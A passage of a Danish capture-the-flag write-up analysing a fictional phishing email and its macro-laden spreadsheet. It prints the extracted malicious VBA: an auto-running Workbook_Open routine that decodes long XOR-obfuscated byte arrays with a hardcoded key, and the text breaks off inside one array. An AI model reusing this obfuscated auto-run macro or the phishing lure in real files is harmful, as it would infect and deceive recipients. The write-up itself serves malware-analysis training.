

# Writeup

Udover de udleverede filer i introopgaven er her udleveret en specifik fil til denne opgave, nemlig en formodet phishingmail fra gerningsgruppen `N1ss3b4nd3n`. Lad os starte med at se på indholdet:



Mailen er adresseret til medarbejderen `Alf E. Nissen` fra legetøjsvirksomheden `Legetøj"Я"Os` på adressen `aen@legetojros.dk`.
Den er tilsyneladende sendt fra en `Jytte Andersen` fra adressen `regnskab@legetojr0s.dk`.
Læg mærke til, der er brugt et lookalike domain `legetojr0s` og ikke det rigtige `legetojros`, det peger klart på phishing.

Udover dette virker mailen langt hen ad vejen troværdig og på korrekt dansk - den er meget direkte målrettet virksomheden.
De har tydeligvis gjort deres hjemmearbejde og ved, hvordan virksomhedens regnskaber ser ud og muligvis brugt navnet på en rigtig medarbejder i regnskabsafdelingen.
Det er selvfølgelig et stort rødt flag, at der er vedhæftet et regneark med makroer (`.xlsm`), og at Alf guides til at fjerne blokering på potentielt farlige dokumenter modtaget per mail.

Vi henter den vedhæftede fil `2023-Q3-regnskab.xlsm` ned for at analysere yderligere.
Denne kan f.eks. åbnes sikkert i LibreOffice, hvor makroerne kan læses direkte, men ellers kan Didier Stevens' script [oledump.py](https://blog.didierstevens.com/programs/oledump-py/) fra `DidierStevensSuite` anbefales. Det køres på filen:

```console
$ python3 oledump.py 2023-Q3-regnskab.xlsm 
A: xl/vbaProject.bin
 A1:       445 'PROJECT'
 A2:        74 'PROJECTwm'
 A3: M   62965 'VBA/ThisWorkbook'
 A4:      2988 'VBA/_VBA_PROJECT'
 A5:      2699 'VBA/__SRP_0'
 A6:       212 'VBA/__SRP_1'
 A7:    103274 'VBA/__SRP_2'
 A8:       230 'VBA/__SRP_3'
 A9:       301 'VBA/__SRP_4'
A10:       158 'VBA/__SRP_5'
A11:       541 'VBA/dir'
A12: M    1359 'VBA/vyFDKiXajP'
```

Her ser vi 12 forskellige data streams, hvoraf to (markeret med `M`) indeholder VBA makroer.
Stream 3 er standardmodulet `ThisWorkbook` og er her, man placerer entrypointet på makroer, der skal køres automatisk, når regnearket åbnes.
Det andet modul i stream 12 virker også klart interessant, da navnet ser tilfældigt - måske obfuskeret - ud: `vyFDKiXajP`.

Vi dekomprimerer denne først:

```console
$ python3 oledump.py -s 12 -v 2023-Q3-regnskab.xlsm
```
```vba
Attribute VB_Name = "vyFDKiXajP"
Public uVbUlFfmHv As String
Public Sub VkruolavHp()
uVbUlFfmHv = "l4ng0gm3g3th3mm3l1gk3y"
End Sub
```

Den definerer en enkelt global variabel `uVbUlFfmHv` og en simpel funktion, der initialiserer variablen til `l4ng0gm3g3th3mm3l1gk3y`, altså `lang og meget hemmelig key` i leetspeak.
Vi kan starte med at gøre den snippet lidt pænere:

```vba
Public key As String

Public Sub setkey()
    key = "l4ng0gm3g3th3mm3l1gk3y"
End Sub
```

Så langt så godt, tid til at se på hovedmodulet:

```console
$ python3 oledump.py -s 3 -v 2023-Q3-regnskab.xlsm
```
```vba
Attribute VB_Name = "ThisWorkbook"
Attribute VB_Base = "0{00020819-0000-0000-C000-000000000046}"
Attribute VB_GlobalNameSpace = False
Attribute VB_Creatable = False
Attribute VB_PredeclaredId = True
Attribute VB_Exposed = True
Attribute VB_TemplateDerived = False
Attribute VB_Customizable = True
Function eomTXCGRBY(UCujrNVIMF As Variant)
Dim yoKdYtvnNV As String
Dim qpNzDVxiKR
For qpNzDVxiKR = 0 To UBound(UCujrNVIMF)
yoKdYtvnNV = yoKdYtvnNV + Chr((UCujrNVIMF(qpNzDVxiKR) Xor Asc(Mid(uVbUlFfmHv, (qpNzDVxiKR Mod Len(uVbUlFfmHv)) + 1, 1)) Xor qpNzDVxiKR) Mod 256)
Next qpNzDVxiKR
Dim kUigaKNsep
kUigaKNsep = "AAiA3b4pSQo984="
eomTXCGRBY = yoKdYtvnNV
End Function
Private Sub Workbook_Open()
Call vyFDKiXajP.VkruolavHp
Dim xVGvdsnRaF
xVGvdsnRaF = "bpiSQIQdsjkpQ"
Dim EiZKrPgbsl
For EiZKrPgbsl = 0 To 32
If EiZKrPgbsl < 20 Then DoEvents
Next EiZKrPgbsl
Dim ZPBfoAGSbl
ZPBfoAGSbl = Array(28, 90, 27, 1, 70, 17, 3, 81, 3, 86, 80, 6, 71, 5, 67, 17, 57, 88, 16, 27, 82, 24, 19, 76, 24, 46, 69, 16, 24, 77, 0, 12, 22, 48, 97, 47, 58, 101, 106, 59, 1, 45, 85, 61, 39, 118, 96, 101, 78, 57, 49, 73, 61, 114, 39, 45, 106, 55, 35, 97, 38, 105, 121, 121, 61, 87, 126, 5, 69, 68, 31, 76, 64, 90, 0, 47, 81, 75, 25, 77, 74, 49, 74, 27, 95, 91, 69, 102, 93, 9, 80, 89, 2, 26, 30, 9, 39, 30, 113, 74, _
56, 73, 72, 21, 69, 18, 76, 66, 40, 85, 74, 22, 95, 119, 3, 86, 111, 7, 86, 116, 77, 67, 24, 84, 115, 15, 86, 31, 166, 178, 224, 187, 154, 240, 171, 177, 249, 141, 166, 250, 145, 255, 189, 128, 226, 158, 136, 226, 182, 229, 182, 169, 234, 183, 129, 238, 136, 187, 234, 169, 140, 202, 148, 209, 162, 140, 214, 169, 132, 205, 135, 219, 165, 135, 222, 189, 157, 204, 157, 149, 235, 147, 152, 197, 158, 222, 169, 145, 227, 145, 149, 239, 237, 188, 244, 234, 129, 253, 237, 186, _
231, 253, 157, 238, 205, 191, 236, 177, 229, 221, 160, 255, 222, 167, 249, 167, 254, 211, 184, 224, 224, 168, 243, 140, 145, 229, 248, 146, 214, 151, 212, 198, 154, 222, 214, 154, 232, 157, 204, 180, 130, 221, 249, 133, 246, 211, 129, 213, 212, 144, 220, 138, 206, 212, 139, 219, 44, 121, 47, 115, 12, 47, 118, 63, 37, 105, 3, 46, 80, 43, 37, 95, 54, 110, 55, 57, 81, 57, 60, 109, 53, 123, 26, 50, 67, 37, 55, 102, 15, 34, 83, 5, 46, 87, 2, 85, 29, 32, 72, 4, _
55, 95, 1, 42, 22, 3, 118, 8, 46, 64, 31, 96, 73, 11, 22, 74, 8, 79, 15, 2, 50, 79, 88, 50, 82, 53, 102, 71, 58, 100, 81, 61, 87, 107, 61, 28, 124, 56, 116, 34, 76, 124, 34, 99, 116, 62, 119, 40, 83, 119, 43, 119, 77, 15, 93, 70, 46, 67, 77, 5, 78, 57, 121, 65, 51, 65, 70, 25, 93, 34, 68, 89, 40, 77, 92, 48, 87, 125, 61, 94, 75, 15, 95, 1, 181, 191, 240, 172, 175, 247, 173, 134, 174, 174, 222, 176, 144, 248, 165, 208, _
225, 186, 152, 226, 189, 231, 167, 170, 234, 150, 166, 234, 134, 237, 191, 189, 210, 143, 159, 213, 158, 131, 208, 145, 132, 249, 170, 218, 158, 132, 216, 135, 156, 214, 143, 192, 183, 159, 198, 143, 149, 218, 163, 158, 246, 155, 155, 231, 230, 145, 193, 233, 162, 233, 238, 161, 229, 172, 252, 225, 138, 245, 231, 182, 255, 212, 149, 246, 246, 167, 249, 189, 237, 227, 184, 244, 226, 175, 250, 191, 198, 210, 128, 219, 190, 144, 204, 239, 153, 220, 224, 154, 216, 159, 221, 191, 130, 200, 206, 130, _
241, 133, 214, 217, 138, 227, 225, 141, 254, 219, 138, 193, 44, 124, 36, 114, 36, 44, 115, 59, 36, 89, 1, 120, 27, 39, 122, 66, 61, 119, 11, 53, 75, 51, 56, 101, 62, 96, 25, 49, 68, 49, 53, 117, 13, 71, 4, 9, 36, 29, 13, 90, 7, 5, 109, 14, 11, 95, 13, 77, 5, 11, 80, 28, 8, 71, 30, 95, 30, 29, 88, 0, 6, 72, 24, 1, 49, 105, 110, 50, 106, 55, 119, 92, 58, 111, 80, 58, 89, 61, 111, 125, 34, 125, 89, 37, 127, 115, 33, 83, _
116, 8, 74, 42, 125, 116, 37, 85, 76, 1, 105, 19, 49, 79, 16, 38, 69, 57, 85, 78, 46, 75, 68, 100, 86, 12, 87, 89, 0, 89, 92, 47, 85, 5, 92, 82, 8, 69, 87, 6, 175, 133, 243, 166, 133, 247, 167, 237, 189, 183, 222, 164, 182, 255, 164, 231, 182, 163, 214, 168, 150, 224, 191, 159, 233, 164, 166, 234, 146, 239, 173, 190, 210, 155, 158, 210, 191, 213, 135, 167, 218, 134, 151, 221, 141, 139, 217, 240, 156, 227, 132, 193, 243, 156, 194, 181, 148, 197, 151, 203, _
232, 151, 197, 169, 237, 175, 203, 230, 133, 227, 239, 147, 238, 171, 239, 225, 143, 225, 228, 196, 253, 182, 210, 249, 215, 237, 253, 215, 247, 231, 187, 254, 196, 175, 254, 139, 213, 235, 182, 204, 216, 151, 206, 135, 206, 204, 136, 208, 176, 152, 200, 209, 129, 197, 222, 130, 218, 135, 199, 240, 138, 206, 214, 138, 198, 141, 222, 221, 114, 47, 9, 117, 30, 35, 126, 57, 36, 91, 10, 122, 33, 36, 117, 9, 60, 65, 25, 96, 18, 63, 97, 63, 53, 78, 19, 61, 85, 59, 52, 79, _
6, 93, 23, 9, 127, 9, 14, 93, 5, 65, 42, 2, 80, 21, 4, 112, 31, 0, 83, 22, 31, 71, 23, 111, 13, 52, 110, 20, 56, 79, 20, 71, 102, 73, 32, 120, 90, 48, 96, 109, 57, 125, 118, 57, 27, 63, 127, 114, 34, 106, 88, 34, 98, 37, 118, 8, 42, 118, 65, 45, 119, 123, 42, 83, 76, 28, 68, 18, 86, 76, 16, 79, 68, 3, 113, 24, 58, 71, 25, 125, 93, 23, 107, 86, 44, 83, 94, 29, 94, 7, 121, 81, 57, 81, 86, 47, 173, 212, 164, 169, _
130, 189, 173, 220, 167, 188, 221, 174, 163, 255, 173, 233, 165, 171, 224, 188, 149, 231, 191, 205, 190, 191, 248, 160, 152, 232, 181, 151, 209, 138, 184, 210, 139, 215, 149, 255, 218, 138, 160, 218, 151, 221, 141, 149, 194, 153, 185, 197, 170, 147, 195, 224, 148, 233, 186, 202, 133, 148, 201, 159, 236, 145, 217, 176, 209, 239, 189, 239, 229, 169, 195, 237, 142, 235, 228, 155, 246, 176, 231, 249, 169, 249, 253, 161, 245, 166, 218, 242, 218, 229, 250, 174, 207, 208, 147, 198, 203, 151, 198, 179, _
221, 207, 174, 196, 176, 159, 199, 169, 214, 206, 144, 200, 211, 128, 223, 231, 137, 205, 214, 138, 204, 143, 207, 244, 114, 58, 8, 114, 29, 117, 37, 61, 122, 38, 17, 125, 83, 43, 121, 11, 60, 65, 36, 98, 20, 60, 99, 29, 52, 75, 39, 104, 17, 55, 101, 5, 13, 112, 29, 6, 109, 3, 12, 77, 14, 87, 15, 1, 114, 1, 4, 36, 29, 81, 34, 26, 50, 13, 28, 86, 23, 15, 109, 29, 98, 79, 31, 111, 117, 112, 32, 108, 111, 55, 110, 17, 110, 67, 56, 112, _
119, 56, 102, 113, 33, 96, 88, 34, 94, 39, 100, 102, 42, 97, 118, 42, 98, 45, 113, 113, 18, 86, 121, 21, 91, 67, 16, 107, 68, 59, 76, 26, 81, 68, 25, 67, 92, 21, 95, 0, 69, 95)
Dim LmFoIUDMcS
LmFoIUDMcS = eomTXCGRBY(ZPBfoAGSbl)
Dim ToyaZSpFDe
ToyaZSpFDe = "lkljkh9y893AAAW=="
Dim TkryVYPUnz
TkryVYPUnz = Array(40, 100, 45, 40, 67, 32, 5, 117, 40, 89, 63, 46, 126, 34, 15, 125, 58, 105, 52, 28, 118, 46, 44, 98, 48, 51, 107, 51, 32, 108, 54, 109, 16, 8, 80, 26, 46, 87, 120, 87, 9, 11, 88, 3, 17, 91, 118, 9, 68, 49, 30, 90, 18, 68, 115, 30, 77, 5, 22, 108, 17, 78, 27, 21, 52, 105, 111, 20, 77, 96, 68, 97, 97, 47, 108, 47, 121, 103, 51, 99, 117, 9, 127, 41, 68, 124, 60, 111, 113, 93, 117, 104, 11, 120, 68, 45, 64, 37, 87, 69, _
22, 74, 103, 21, 67, 108, 76, 78, 40, 85, 112, 26, 86, 67, 3, 89, 126, 4, 90, 5, 72, 68, 8, 115, 118, 12, 91, 15, 162, 137, 240, 173, 185, 243, 128, 161, 240, 129, 166, 234, 170, 252, 191, 166, 229, 151, 190, 243, 143, 229, 194, 189, 238, 135, 183, 251, 179, 184, 229, 185, 137, 219, 132, 222, 129, 143, 208, 139, 141, 211, 135, 206, 154, 132, 246, 151, 154, 234, 157, 183, 243, 144, 144, 197, 153, 195, 143, 132, 232, 145, 165, 205, 234, 165, 228, 230, 144, 254, 192, 178, _
229, 221, 187, 207, 198, 188, 231, 189, 236, 240, 160, 234, 206, 167, 142, 167, 250, 130, 168, 248, 241, 171, 248, 249, 151, 207, 206, 134, 210, 148, 202, 206, 156, 213, 198, 149, 209, 158, 248, 197, 134, 255, 223, 166, 253, 208, 136, 209, 209, 161, 220, 156, 239, 215, 156, 211, 40, 93, 47, 104, 20, 44, 111, 63, 32, 94, 37, 56, 109, 40, 43, 125, 51, 107, 39, 41, 102, 58, 51, 101, 60, 113, 60, 34, 110, 38, 1, 106, 6, 3, 83, 32, 62, 84, 41, 85, 27, 54, 88, 39, _
0, 92, 52, 95, 17, 49, 64, 7, 47, 67, 34, 17, 79, 61, 22, 93, 10, 76, 51, 22, 52, 24, 110, 36, 95, 54, 72, 109, 62, 4, 103, 30, 115, 104, 61, 105, 120, 13, 116, 44, 87, 127, 38, 123, 125, 59, 119, 39, 92, 119, 31, 103, 73, 24, 77, 101, 51, 64, 101, 21, 73, 19, 95, 90, 14, 66, 91, 29, 89, 43, 84, 78, 22, 77, 109, 2, 81, 79, 11, 125, 118, 12, 81, 13, 178, 138, 240, 160, 168, 244, 147, 247, 170, 214, 248, 188, 151, 251, 162, 169, _
230, 179, 190, 241, 132, 228, 160, 190, 239, 181, 182, 242, 177, 238, 187, 181, 208, 224, 143, 194, 139, 128, 219, 129, 130, 245, 140, 204, 137, 135, 231, 131, 152, 241, 159, 213, 146, 156, 232, 143, 146, 200, 149, 191, 205, 152, 167, 205, 226, 167, 247, 207, 128, 234, 237, 181, 236, 151, 236, 197, 174, 246, 195, 186, 249, 227, 163, 224, 222, 164, 249, 165, 233, 228, 168, 211, 240, 172, 245, 175, 207, 237, 144, 248, 217, 147, 252, 193, 159, 219, 198, 137, 218, 156, 208, 198, 128, 164, 222, 148, _
217, 134, 228, 221, 141, 205, 215, 156, 211, 219, 183, 217, 42, 81, 36, 105, 7, 44, 0, 43, 32, 89, 39, 95, 42, 36, 126, 55, 57, 78, 61, 32, 117, 48, 52, 101, 57, 115, 47, 62, 126, 50, 25, 109, 4, 69, 4, 28, 86, 29, 120, 82, 14, 45, 91, 31, 16, 92, 2, 93, 2, 20, 64, 19, 62, 68, 17, 71, 24, 102, 72, 23, 39, 75, 97, 25, 55, 65, 110, 35, 98, 52, 120, 110, 60, 71, 102, 44, 113, 62, 127, 101, 37, 71, 127, 51, 93, 112, 55, 113, _
113, 39, 124, 59, 79, 119, 34, 115, 72, 31, 79, 48, 82, 76, 12, 95, 76, 50, 69, 90, 43, 72, 110, 29, 84, 49, 71, 122, 6, 90, 41, 5, 82, 13, 92, 74, 40, 70, 70, 10, 170, 141, 243, 133, 168, 244, 182, 245, 186, 172, 248, 180, 150, 255, 154, 255, 178, 183, 224, 142, 159, 224, 130, 177, 238, 145, 182, 249, 156, 236, 188, 182, 212, 187, 142, 194, 175, 214, 181, 141, 221, 129, 135, 198, 147, 136, 201, 137, 149, 199, 148, 227, 129, 159, 206, 155, 144, 233, 151, 197, _
154, 148, 193, 135, 232, 146, 237, 234, 165, 224, 253, 181, 235, 163, 255, 192, 190, 226, 228, 189, 251, 181, 244, 244, 144, 238, 214, 162, 254, 239, 171, 223, 240, 172, 138, 173, 208, 238, 144, 237, 238, 148, 187, 151, 201, 195, 152, 243, 247, 155, 200, 201, 136, 207, 222, 142, 194, 135, 179, 222, 136, 172, 214, 133, 209, 141, 169, 213, 118, 19, 47, 122, 13, 32, 112, 33, 45, 115, 44, 110, 15, 39, 73, 35, 53, 123, 63, 112, 50, 60, 78, 47, 48, 120, 53, 37, 75, 59, 1, 109, _
3, 83, 23, 40, 112, 10, 4, 85, 12, 119, 12, 26, 120, 22, 14, 90, 25, 3, 67, 55, 46, 68, 103, 69, 15, 105, 72, 25, 16, 76, 51, 79, 97, 99, 48, 99, 121, 51, 110, 97, 63, 99, 102, 27, 76, 60, 80, 102, 39, 87, 126, 44, 79, 38, 101, 125, 45, 117, 119, 62, 99, 120, 15, 121, 74, 37, 68, 1, 65, 79, 18, 75, 65, 57, 71, 0, 108, 68, 31, 87, 89, 20, 93, 64, 35, 80, 98, 5, 90, 3, 79, 92, 30, 82, 103, 13, 170, 219, 164, 190, _
230, 190, 179, 242, 163, 137, 251, 185, 134, 255, 216, 253, 163, 160, 224, 155, 158, 228, 141, 231, 187, 163, 232, 176, 151, 235, 166, 185, 216, 135, 142, 194, 164, 215, 224, 142, 220, 141, 134, 194, 145, 222, 179, 133, 203, 129, 159, 222, 139, 144, 202, 145, 147, 199, 156, 219, 191, 151, 252, 147, 234, 194, 239, 191, 196, 236, 195, 255, 224, 188, 229, 253, 139, 232, 144, 189, 242, 129, 231, 223, 144, 250, 255, 165, 243, 165, 252, 209, 136, 230, 193, 170, 203, 195, 147, 222, 200, 148, 212, 149, _
219, 246, 152, 200, 208, 156, 182, 159, 208, 215, 128, 233, 217, 131, 246, 209, 141, 207, 214, 156, 202, 140, 192, 214, 117, 45, 46, 97, 57, 118, 51, 45, 126, 3, 39, 94, 35, 40, 68, 41, 53, 103, 52, 117, 49, 63, 107, 59, 51, 123, 55, 78, 12, 55, 28, 39, 10, 68, 13, 30, 99, 0, 27, 85, 11, 67, 31, 26, 120, 2, 5, 93, 26, 81, 20, 61, 86, 13, 106, 66, 18, 23, 75, 10, 38, 76, 54, 77, 124, 108, 48, 124, 94, 52, 115, 55, 104, 73, 56, 87, _
71, 59, 103, 105, 38, 81, 126, 55, 114, 36, 118, 126, 44, 83, 118, 12, 97, 45, 9, 117, 20, 65, 79, 3, 75, 64, 39, 65, 66, 49, 76, 14, 111, 68, 39, 67, 90, 45, 95, 32, 100, 92)
Dim KsyHAFlamj
KsyHAFlamj = eomTXCGRBY(TkryVYPUnz)
Dim lMwAmaHYSx
For lMwAmaHYSx = 0 To 64
If lMwAmaHYSx < 30 Then DoEvents
Next lMwAmaHYSx
Dim GxkOhEtQfy
GxkOhEtQfy = Array(58, 116, 42, 11, 117, 3, 28, 118, 33, 123, 54, 34, 126, 46, 50, 126, 55, 97, 51, 19, 102, 58, 59, 97, 38, 63, 108, 23, 48, 76, 40, 110, 7, 8, 86, 3, 8, 115, 11, 84, 123, 3, 93, 57, 1, 122, 39, 9, 51, 23, 23, 99, 18, 81, 3, 29, 89, 21, 17, 89, 17, 85, 46, 22, 49, 121, 107, 71, 107, 119, 39, 98, 109, 59, 101, 53, 121, 116, 26, 96, 100, 35, 123, 43, 114, 117, 18, 108, 77, 44, 113, 8, 45, 94, 68, 46, 81, 19, 81, 108, _
22, 81, 108, 22, 105, 25, 75, 107, 30, 69, 83, 25, 72, 87, 10, 81, 88, 18, 80, 5, 126, 80, 12, 97, 80, 43, 83, 15, 213, 171, 244, 175, 169, 227, 143, 162, 215, 175, 160, 223, 170, 243, 187, 165, 232, 189, 186, 144, 185, 235, 160, 190, 153, 161, 179, 155, 179, 159, 239, 186, 129, 211, 128, 213, 145, 156, 242, 136, 164, 219, 130, 253, 138, 164, 204, 148, 154, 196, 155, 236, 197, 131, 188, 198, 181, 203, 134, 176, 206, 138, 180, 206, 197, 177, 230, 219, 182, 233, 221, 177, _
233, 239, 191, 199, 224, 159, 248, 190, 150, 248, 164, 209, 248, 176, 235, 164, 210, 243, 173, 197, 241, 191, 225, 250, 189, 199, 203, 183, 194, 155, 211, 205, 171, 197, 192, 179, 193, 141, 216, 198, 155, 201, 218, 134, 219, 196, 161, 209, 239, 139, 216, 129, 201, 192, 156, 211, 94, 115, 43, 93, 34, 32, 82, 60, 61, 124, 35, 3, 125, 63, 50, 126, 15, 99, 35, 79, 102, 45, 28, 102, 35, 105, 56, 23, 110, 51, 35, 105, 39, 7, 90, 9, 8, 79, 16, 86, 51, 0, 81, 31, _
0, 124, 3, 92, 4, 27, 68, 33, 25, 98, 47, 18, 62, 31, 19, 65, 26, 93, 27, 21, 29, 109, 108, 3, 105, 38, 96, 109, 1, 113, 97, 12, 99, 79, 47, 106, 122, 35, 125, 15, 97, 108, 52, 120, 4, 43, 113, 39, 122, 96, 10, 103, 61, 20, 74, 85, 21, 85, 90, 22, 120, 27, 93, 59, 30, 77, 116, 30, 76, 1, 81, 115, 6, 110, 75, 1, 91, 95, 12, 73, 80, 42, 88, 14, 155, 168, 247, 187, 168, 213, 187, 244, 218, 163, 241, 187, 161, 238, 135, 170, _
249, 183, 184, 215, 178, 232, 163, 189, 249, 181, 180, 219, 177, 254, 168, 182, 194, 153, 139, 224, 139, 144, 241, 130, 183, 219, 142, 160, 153, 156, 204, 128, 147, 195, 155, 219, 146, 132, 196, 143, 224, 204, 145, 191, 205, 142, 164, 206, 204, 179, 240, 234, 182, 254, 204, 181, 145, 185, 229, 241, 190, 208, 243, 186, 200, 247, 165, 199, 248, 131, 214, 165, 222, 240, 172, 243, 240, 141, 213, 172, 245, 203, 151, 219, 201, 130, 201, 194, 182, 207, 193, 183, 202, 186, 219, 198, 240, 221, 215, 141, _
217, 139, 208, 222, 190, 193, 208, 134, 211, 212, 185, 218, 31, 115, 33, 121, 49, 38, 66, 43, 85, 123, 32, 115, 42, 63, 74, 52, 5, 100, 56, 23, 101, 43, 42, 102, 77, 107, 40, 20, 110, 34, 50, 110, 121, 81, 2, 35, 86, 14, 11, 81, 8, 15, 95, 59, 0, 81, 24, 94, 6, 24, 70, 19, 24, 92, 61, 68, 109, 19, 78, 23, 17, 90, 1, 26, 34, 103, 104, 19, 98, 59, 69, 109, 60, 101, 100, 64, 97, 51, 104, 102, 85, 105, 123, 16, 123, 124, 39, 114, _
66, 43, 117, 7, 105, 123, 60, 112, 103, 19, 72, 53, 66, 84, 4, 92, 82, 28, 65, 107, 29, 83, 82, 29, 35, 3, 78, 82, 6, 77, 74, 6, 81, 9, 91, 115, 14, 94, 117, 9, 133, 167, 247, 212, 168, 211, 160, 246, 171, 160, 241, 175, 160, 234, 149, 252, 188, 187, 229, 129, 185, 236, 143, 178, 248, 191, 177, 249, 186, 225, 171, 181, 228, 141, 138, 247, 137, 218, 144, 142, 203, 145, 131, 240, 131, 174, 249, 138, 232, 195, 147, 227, 129, 188, 212, 152, 155, 203, 147, 253, _
154, 131, 234, 132, 221, 180, 233, 233, 181, 236, 220, 181, 157, 187, 250, 242, 190, 249, 196, 190, 233, 161, 242, 140, 166, 253, 221, 161, 221, 255, 175, 136, 240, 186, 206, 174, 221, 200, 150, 215, 200, 154, 253, 148, 222, 195, 156, 241, 193, 141, 209, 202, 246, 215, 215, 175, 210, 162, 229, 221, 147, 213, 211, 171, 209, 155, 200, 214, 91, 57, 41, 88, 43, 48, 65, 33, 18, 123, 37, 97, 57, 55, 108, 32, 51, 99, 54, 73, 50, 51, 116, 47, 64, 108, 51, 31, 109, 44, 34, 109, _
62, 83, 18, 40, 86, 42, 26, 85, 116, 89, 10, 112, 94, 25, 53, 89, 40, 23, 69, 96, 24, 82, 0, 70, 5, 16, 76, 37, 16, 64, 19, 76, 72, 107, 55, 99, 105, 43, 105, 98, 62, 111, 96, 53, 106, 53, 77, 101, 51, 125, 123, 37, 121, 49, 112, 125, 28, 97, 115, 12, 115, 96, 47, 122, 59, 19, 65, 25, 81, 92, 50, 72, 74, 27, 67, 23, 74, 95, 42, 87, 107, 4, 90, 127, 5, 94, 108, 6, 72, 11, 75, 116, 14, 70, 116, 14, 154, 241, 162, 135, _
246, 177, 141, 241, 180, 175, 255, 220, 160, 228, 184, 254, 177, 184, 233, 149, 184, 240, 187, 228, 158, 179, 236, 141, 177, 228, 177, 186, 199, 135, 135, 255, 130, 244, 147, 141, 201, 133, 131, 201, 129, 203, 136, 134, 238, 137, 155, 183, 155, 183, 199, 146, 140, 203, 153, 193, 137, 131, 204, 144, 238, 179, 233, 183, 226, 244, 180, 252, 239, 188, 226, 233, 189, 249, 212, 190, 217, 163, 227, 204, 166, 225, 204, 166, 254, 169, 254, 195, 174, 243, 227, 169, 202, 199, 150, 201, 200, 135, 230, 150, _
196, 192, 154, 245, 192, 186, 229, 156, 248, 219, 133, 233, 217, 140, 255, 209, 252, 223, 210, 252, 218, 157, 253, 213, 1, 45, 40, 0, 41, 86, 22, 46, 97, 49, 46, 118, 35, 37, 111, 42, 10, 99, 48, 71, 33, 51, 100, 59, 64, 107, 62, 107, 58, 23, 124, 36, 38, 84, 9, 29, 85, 38, 10, 85, 122, 91, 25, 18, 94, 23, 18, 94, 17, 65, 16, 21, 70, 27, 61, 66, 32, 31, 79, 59, 16, 107, 62, 78, 2, 104, 52, 77, 104, 44, 93, 55, 29, 99, 60, 123, _
97, 47, 113, 105, 81, 119, 122, 19, 114, 40, 115, 125, 45, 117, 127, 45, 113, 33, 120, 118, 102, 89, 70, 6, 75, 102, 33, 65, 55, 27, 69, 9, 89, 97, 42, 64, 113, 3, 91, 15, 82, 77)
Dim OsgwuQFZez
OsgwuQFZez = eomTXCGRBY(GxkOhEtQfy)
Dim fwqASXcpCZ
fwqASXcpCZ = "Af679ads8a78Kg="
Dim rVNKPsoBFf
rVNKPsoBFf = Array(61, 119, 39, 37, 115, 59, 42, 97, 8, 120, 60, 34, 119, 15, 34, 102, 27, 98, 60, 57, 97, 41, 59, 70, 55, 60, 93, 61, 55, 111, 56, 77, 5, 8, 36, 15, 12, 79, 11, 119, 14, 0, 83, 19, 4, 126, 1, 7, 81, 20, 50, 65, 20, 109, 3, 5, 124, 22, 3, 73, 20, 89, 24, 55, 4, 122, 31, 54, 98, 65, 55, 68, 66, 56, 93, 57, 127, 112, 60, 108, 124, 32, 121, 35, 117, 123, 36, 125, 67, 47, 113, 125, 43, 99, 114, 53, 86, 16, 36, 74, _
18, 107, 74, 6, 115, 26, 97, 65, 25, 89, 67, 14, 121, 84, 114, 85, 92, 23, 80, 23, 107, 80, 124, 87, 86, 45, 83, 25, 182, 168, 229, 187, 172, 224, 169, 175, 233, 175, 159, 249, 163, 221, 187, 130, 196, 190, 165, 225, 191, 233, 176, 179, 234, 162, 155, 238, 181, 153, 239, 171, 140, 211, 245, 209, 152, 170, 212, 156, 132, 216, 132, 219, 140, 242, 220, 154, 171, 196, 237, 149, 193, 185, 154, 225, 142, 200, 182, 146, 199, 183, 146, 222, 253, 177, 151, 233, 179, 215, 235, 162, _
193, 236, 177, 237, 231, 179, 232, 170, 195, 251, 151, 255, 255, 141, 251, 188, 254, 240, 185, 227, 248, 130, 241, 221, 145, 196, 255, 145, 198, 131, 211, 214, 172, 198, 255, 153, 195, 175, 200, 202, 130, 202, 233, 134, 223, 162, 135, 219, 226, 136, 233, 137, 205, 246, 140, 192, 26, 112, 44, 115, 37, 9, 116, 48, 53, 127, 41, 45, 120, 39, 34, 110, 0, 96, 40, 58, 98, 41, 58, 104, 3, 106, 36, 49, 106, 33, 51, 114, 31, 4, 95, 5, 10, 101, 0, 67, 29, 0, 96, 7, _
6, 91, 3, 74, 22, 24, 71, 11, 30, 98, 25, 9, 89, 28, 62, 73, 29, 91, 11, 13, 4, 109, 30, 49, 96, 53, 96, 118, 28, 114, 106, 62, 101, 127, 63, 127, 108, 32, 91, 33, 104, 104, 36, 111, 66, 40, 101, 43, 125, 123, 44, 113, 93, 23, 84, 69, 19, 87, 74, 5, 104, 27, 102, 66, 23, 85, 66, 13, 77, 2, 109, 89, 0, 69, 91, 33, 113, 95, 122, 93, 87, 41, 88, 22, 165, 171, 135, 175, 172, 134, 171, 236, 174, 160, 139, 179, 165, 224, 161, 165, _
